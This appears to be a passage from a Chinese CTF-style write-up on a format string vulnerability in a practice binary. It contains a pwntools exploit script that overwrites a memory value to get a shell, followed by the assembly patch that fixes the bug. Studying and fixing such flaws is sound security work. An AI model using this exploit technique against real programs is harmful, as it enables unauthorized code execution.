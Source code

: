 格式化字符串漏洞由于缺少了参数，造成字符漏洞，因此我们需要补上参数。

文件链接：https://wutongblogs.oss-cn-beijing.aliyuncs.com/test/fix/

## 4.1 攻击

反汇编：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f3.png?x-oss-process=style/watermark)

存在格式化字符串漏洞。

攻击脚本：

```python
from pwn import *
p = process('./esft_x86_1')
payload = fmtstr_payload(10,{0x804C044:0x1})
p.recvuntil('name:')
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
```

成功获取shell：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f1.png?x-oss-process=style/watermark)



## 4.2 修补

1、Printf没有参数%s造成溢出，因此首先在数据段写入%s字符

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f4.png?x-oss-process=style/watermark)

2、原先的流程内，不够布置两个参数，因此同样需要跳转流程：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f5.png?x-oss-process=style/watermark)

修改汇编指令如下：

```assembly
lea eax, [as] //将%s放入eax寄存器
push eax  //%s入栈
call printf //调用Printf
pop eax //把多push的东西pop出来
jmp jmp_ret //回到原来流程
```

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f6.png?x-oss-process=style/watermark)

3、完成修改：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/f7.png?x-oss-process=style/watermark)
